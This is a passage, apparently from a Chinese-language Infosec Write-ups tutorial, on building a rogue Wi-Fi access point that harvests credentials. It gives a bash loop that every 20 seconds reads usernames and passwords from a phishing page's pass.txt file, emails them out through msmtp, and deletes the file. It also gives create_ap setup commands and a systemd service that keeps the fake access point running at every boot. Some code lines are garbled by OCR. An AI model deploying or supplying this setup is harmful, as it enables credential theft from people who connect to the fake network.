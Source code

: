 **设置电子邮件以接收收集的凭证**

要在您的电子邮件中接收收集的凭据，您可以使用 Msmtp (SMTP)。

现在，您需要创建脚本，并使其在启动时运行，它将每 20 秒检查一次 pass.txt 文件是否存在，如果存在，它将从中提取用户名和密码并发送到您的电子邮件。

```
#!/bin/bash
while sleep 20
do
if [ -f /var/www/html/pass.txt ]
then grep -e user -e pass /var/www/html/pass.txt | msmtp - debug - from=default -t example@email.com
rm -f /var/www/html/pass.txt
fi
done
```

**创建 Wi-Fi 接入点**

```
sudo git clone https://github.com/oblique/create_ap
cd create_ap
sudo make install
```

要创建 WI-Fi 接入点，请运行以下命令:

```
sudo create_ap -n wlan1 MyAccessPoint MyPassPhrase --no-virt
```

为了在每次启动时创建 AP，我创建了服务**/etc/systemd/system/AP . service**:

```
Unit]
Description=Run script with systemd
[Service]
ExecStart=sudo create_ap -n wlan1 MyAccessPoint MyPassPhrase --no-virt
Restart=always
TimeoutStartSec=20
RestartSec=20
[Install]
WantedBy=multi-user.target
```

要启用服务运行:

```
sudo systemctl enable ap.service
sudo systemctl daemon-reload
```

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！